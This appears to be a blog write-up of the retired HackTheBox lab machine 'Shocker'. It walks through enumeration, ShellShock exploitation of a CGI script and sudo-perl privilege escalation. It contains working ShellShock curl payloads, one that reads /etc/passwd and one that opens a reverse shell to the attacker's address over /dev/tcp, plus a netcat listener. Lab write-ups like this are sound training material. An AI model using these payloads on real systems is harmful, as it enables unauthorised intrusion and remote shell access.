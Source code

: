 ```yaml
---
title:      'Shocker'
date:       '2022-01-24'
tag:        'htb'
subtag1:    'Linux'
subtag2:    'CVE'
subtag3:    'Command Injection'
---
```


###### Shocker is a retired easy-ranked Linux machine on HacktheBox.


### INFORMATION GATHERING

---
##### nmap scan

![nmap scan](/images/boxes/shocker/nmap.png "nmap scan")
```bash
nmap -sC -sV -Pn -oA Shocker 10.10.10.56
```

Here we discover:
- Apache 2.4.18
- SSH (running on port 2222)

---
##### directory enumeration

![ffuf 1](/images/boxes/shocker/ffuf_1.png "ffuf 1")   
```bash
ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/FUZZ/   
```
- _ffuf_ => [FFUF](https://www.kali.org/tools/ffuf/) is a powerful file/directory fuzzing tool (Fuzz Faster u Fool)
- _-ic_ => ignore the comment lines in the wordlist
- _-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt_ => the word list to use
- _-u http://10.10.10.56/FUZZ/_ => the url to fuzz. Iterate the wordlist and attempt to reach the url with the word FUZZ replaced by the index word

The scan reveals a directory on the web server called _cgi-bin_

---
##### exploit research

![searchsploit](/images/boxes/shocker/searchsploit.png "searchsploit")
```bash
searchsploit Apache 2.4.18   
```
found an exploit to target cgi-bin

my c skills are weak, so I did some googling

![research 1](/images/boxes/shocker/research_1.png "research 1")
vulnerability is called _ShellShock_

![research 2](/images/boxes/shocker/research_2.png "research 2")
[https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/](https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/)

---
##### search cgi-bin for bash scripts

![ffuf 2](/images/boxes/shocker/ffuf_2.png "ffuf 2")
```bash
ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/FUZZ.sh   
```

fuzzing the _cgi-bin_ directory for _.sh_ files revealed a result: _user.sh_

![confirmation](/images/boxes/shocker/confirmation.png "confirmation")
navigating to _/cgi-bin/user.sh_ confirms presence by prompting to download


### EXPLOITATION

---
##### cURL

![curl passwd](/images/boxes/shocker/curl_passwd.png "curl passwd")
```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"   
```

- _curl_ => [cURL](https://en.wikipedia.org/wiki/CURL) is an extremely popular library used to transfer data (needs no introduction)
- _http://10.10.10.56/cgi-bin/user.sh_ => using cURL to call the bash script
- _-H "custom:() { ignored; }; echo Content-Type: text/html; echo ;_ => pass in the headers which aren't terminated correctly
- _/bin/cat /etc/passwd"_ => cat the password file

found a user named _shelly_

---
##### user.txt

![user flag](/images/boxes/shocker/user_flag.png "user flag")

---
##### establish connection

![reverse shell 1](/images/boxes/shocker/reverse_shell_1.png "reverse shell 1")
```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ;  /bin/sh -i >& /dev/tcp/10.10.14.19/7777 0>&1"   
```
...
- _/bin/sh -i >& /dev/tcp/10.10.14.19/7777 0>&1"_ => call bash to establish a tcp connection to us on port 7777 and pass the stdin and stdout to us

![reverse shell 2](/images/boxes/shocker/reverse_shell_2.png "reverse shell 2")
```bash
nc -nvlp 7777   
```
- _nc_ => the [netcat](https://en.wikipedia.org/wiki/Netcat) package is an extremely popular tool for working with connections (also needs to introduction)
- _-n_ => skip DNS lookups
- _-v_ => provide verbose output
- _-l_ => listen
- _-p 7777_ => use port 7777

shell access as _shelly_


### POST EXPLOITATION

##### privilege escalation

![sudo check](/images/boxes/shocker/sudo_check.png "sudo check")
```bash
sudo -l
```
_shelly_ can run [perl](https://www.perl.org/) as _sudo_

![priv esc](/images/boxes/shocker/priv_esc.png "priv esc")
[https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

found a _perl_ command to spawn a shell (which will subsequently be run as _sudo_)

---

##### root.txt
![root flag](/images/boxes/shocker/root_flag.png "root flag")
root flag was in the _root_ directory

### SUMMARY

---
Shocker is a fun and straight-forward Linux box and relies on a well-known (and patched into oblivion) vulnerability: ShellShock. The box required minimal fuzzing/enumeration and the privilege escalation was not complicated. This is a great easy-ranked machine. It should be noted that this machine can be rooted extremely quickly using metasploit once the vulnerability is discovered, effectively trivializing this box.
